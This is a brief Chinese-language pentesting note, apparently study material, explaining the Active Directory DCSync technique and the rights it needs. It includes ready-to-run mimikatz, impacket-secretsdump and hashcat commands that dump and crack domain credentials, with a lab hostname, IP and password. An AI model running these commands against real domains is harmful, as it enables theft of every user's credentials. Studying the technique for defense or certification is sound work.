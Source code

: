 DRS(Directory Replication Service)域同步服务，使用复制来同步冗余的域控。域控可以使用IDL_DRSGetNCChanges API来请求特定对象的更新

接收更新请求的dc不检查请求是否来自已知的dc，它只验证相关的SID是否具有适当的权限

scsysnc需要的权限：Reolicating Directory Changes,Replicating Directory Changes ALL, Replicating Directory Changes in Filtered Set rights.Domain Admins,Enterprise Admins, Administrators groups有权限。

有权限时可以dcsync，伪装成dc。从域中请求任何用户的凭据。

tools
```
###win   
/user:要获取凭据的域用户名
mimikatz> lsadump::dcsync /user:corp\dave

拿到NTLM hash后
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force


###linux
kali> impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70

```






## Lateral Movement  域横向
##